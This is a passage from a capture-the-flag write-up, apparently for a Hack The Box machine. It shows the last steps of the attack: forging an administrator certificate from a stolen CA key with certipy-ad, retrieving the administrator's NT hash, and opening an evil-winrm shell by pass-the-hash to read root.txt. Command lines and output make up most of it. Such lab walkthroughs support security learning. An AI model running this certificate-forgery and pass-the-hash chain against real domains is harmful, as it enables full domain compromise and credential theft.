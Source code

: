 Having the “ca.pfx” we can download it in our attacker machine and use the Golden Ticket attack to forged a TGT for the administrator.

```powershell
┌──(sanke㉿vbox)-[~/Downloads/certificate]
└─$ certipy-ad forge -ca-pfx 'ca.pfx' -upn administrator@certificate.htb
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Saving forged certificate and private key to 'administrator_forged.pfx'
[*] Wrote forged certificate and private key to 'administrator_forged.pfx'

```

Like we did earlier, we are going to grab the NTLM hash using the ca.pfx we requested.

```powershell
┌──(sanke㉿vbox)-[~/Downloads/certificate]
└─$ certipy-ad auth -dc-ip 10.10.11.71 -domain certificate.htb -pfx "administrator_forged.pfx"
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@certificate.htb'
[*] Using principal: 'administrator@certificate.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certificate.htb': aad3b435b51404eeaad3b435b51404ee:d804304519bf0143c14cbf1c024408c6

```

Let’s connect to our new administrator and get the root.txt flagggg!!!!

```powershell
┌──(sanke㉿vbox)-[~/Downloads/certificate]
└─$ evil-winrm  -i 10.10.11.71 -u administrator -H "d804304519bf0143c14cbf1c024408c6"
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir

    Directory: C:\Users\Administrator\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        10/4/2025  11:43 AM             34 root.txt

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
```

PWNDD!!!!

I loved this machine!! It took me 3 days to complete it. So realistic as alwayss!!!!
